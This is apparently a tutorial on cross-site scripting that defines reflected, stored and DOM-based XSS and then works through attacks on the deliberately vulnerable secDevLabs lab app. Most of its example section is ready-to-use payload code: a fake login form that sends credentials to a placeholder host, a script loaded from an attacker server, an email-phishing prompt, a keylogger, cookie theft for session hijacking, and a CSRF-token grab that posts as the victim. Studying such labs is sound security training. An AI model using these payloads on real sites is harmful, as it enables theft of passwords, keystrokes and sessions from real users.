 An XSS (Cross-Site Scripting) vulnerability is a type of computer security vulnerability that allows an attacker to execute malicious code on a user's web page without the user's knowledge or consent. This vulnerability allows the attacker to steal personal information such as usernames, passwords and other sensitive data.

In essence, an XSS attack involves the insertion of malicious code into a vulnerable web page, which is then executed in the browser of the user accessing that page. The malicious code can be anything from scripts that redirect the user to another page, to scripts that log keystrokes or form data and send it to a remote server.

There are several types of XSS vulnerabilities, including the following:
- **Reflected**: This type of XSS occurs when data provided by the user is reflected in the HTTP response without being properly verified. This allows an attacker to inject malicious code into the response, which is then executed in the user's browser.
- **Stored**: This type of XSS occurs when an attacker is able to store malicious code in a database or on the web server hosting a vulnerable web page. This code is executed every time the page is loaded.
- **DOM-Based**: This type of XSS occurs when malicious code is executed in the user's browser through the DOM (Document Object Model). This occurs when JavaScript code on a web page modifies the DOM in a way that is vulnerable to malicious code injection.

XSS attacks can have serious consequences for businesses and individual users. For this reason, it is essential that web developers implement appropriate security measures to prevent XSS vulnerabilities. These measures can include validating input data, removing dangerous HTML code, and limiting JavaScript permissions in the user's browser.

# Example

----
> The example we are will be working on is: [secDevLabs](https://github.com/globocom/secDevLabs).
> For the installation we need to clone the .git repo and enter into secDevLabs > owasp-top10-2021-apps > a3 > gossip-world and run  **make install**.
> For the setup, we need to open a browser and visit **localhost:10007**, then create two users for testing.
----

We can test XSS typing the above code in new post:

```js
// This code will show a pop-up alert
<script>alert("XSS")</script>
```

We can also create a more complex html with a .js script, containing a form:

```js
<div id="formContainer"></div>

<script>
    var email;
    var password;
    var form = '<form>' +
        'Email: <input type="email" id="email" required>' +
        ' Contraseña: <input type="password" id="password" required>' +
        '<input type="button" onclick="submitForm()" value="Submit">' +
        '</form>';
  
    document.getElementById("formContainer").innerHTML = form;
  
    function submitForm() {
        email = document.getElementById("email").value;
        password = document.getElementById("password").value;
        fetch("http://{IP}/?email=" + email + "&password=" + password);
    }
</script>
```

----
> We can also run remote-stored scripts. Note that we don't need to put the 'script' label in the remote-accessed script, only in the web-uploaded one.
----

For running remote scripts we can serve a HTTP server with Python in our local machine and then access the wanted resource from the web:

```
python3 -m http.server 80
```

```js
<script src="http://{ATTACKER_IP}/test.js"></script>
```

Then, we can access remote source without the need of putting the 'script' label. For example, in the example below we will do an example about accessing a remote code that request an email and sent it to the Python HTTP server:

```js
var email = prompt("Por favor, introduce tu correo electrónico para visualizar el post", "example@example.com");

if (email == null || email == "") {
	alert("Es necesario introducir un correo electrónico válido para visualizar el post");
} else {
	fetch("http://{IP}/?email=" + email);
}
```

Another example here about making a keylogger:

```js
<script>
    var k = "";
    
    document.onkeypress = function(e) {
        // e does not work in every browser, for that reason we add the 'or' condition
        e = e || window.event;

        k += e.key;
        var i = new Image();
        i.src = "http://{IP}/" + k;
    };
</script>
```

We can also make a redirect to another web:

```js
<script>
    window.location.href = "https://{DOMAIN}";
</script>
```

If we check that **HttpOnly** is false in the session cookie, we can perform a **Session Hijacking** stoling this session cookie:

```js
<script>
    var request = new XMLHttpRequest();
    request.open('GET', 'http://{IP}/?cookie=' + document.cookie);
    request.send();
</script>
```

Finally, we can try to publish posts on behalf oh another user. This will have two steps:

```js
// First step: we need to get the victim's csrf_token
var domain = "http://localhost:10007/newgossip";
var req1 = new XMLHttpRequest();
req1.open('GET', domain, false);
// withCredentials is set as true because we want to avoid the generation of new credentials in the next request
req1.withCredentials = true;
req1.send();
  
var response = req1.responseText;
var parser = new DOMParser();
var doc = parser.parseFromString(response, 'text/html');
var token = doc.getElementsByName("_csrf_token")[0].value;

// Second step: We can check in BurpSuite how requests are handled (data sent, request type and request header) and send the data signed with the other user token
var req2 = new XMLHttpRequest();
var data = "title=Hacked%20Title&subtitle=Hacked%20Subtitle&text=Get%20Hacked!&_csrf_token=" + token;
req2.open('POST', 'http://localhost:10007/newgossip', false);
req2.withCredentials = true;
req2.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
req2.send(data);
```